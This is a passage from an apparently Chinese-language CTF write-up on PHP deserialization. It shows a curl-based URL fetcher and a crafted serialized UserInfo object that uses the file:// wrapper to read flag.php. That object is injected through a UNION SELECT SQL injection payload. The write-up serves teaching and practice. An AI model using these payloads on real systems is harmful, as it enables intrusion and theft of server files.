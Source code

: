 ```php
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

一开始认为需要构造序列化的链子但其实可以直接用之前爆出来的序列化数据改一下，配合伪协议直接拿到数据，但前提是你得知道存在flag.php这个文件

O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:1;s:4:"blog";s:29:”file:///var/www/html/flag.php”;}

- no=-1 union all select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:1;s:4:"blog";s:29:”file:///var/www/html/flag.php”;}'#

![Untitled](PHP%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%20d90af503f8914fd0b2d3439c30147b00/Untitled%2019.png)
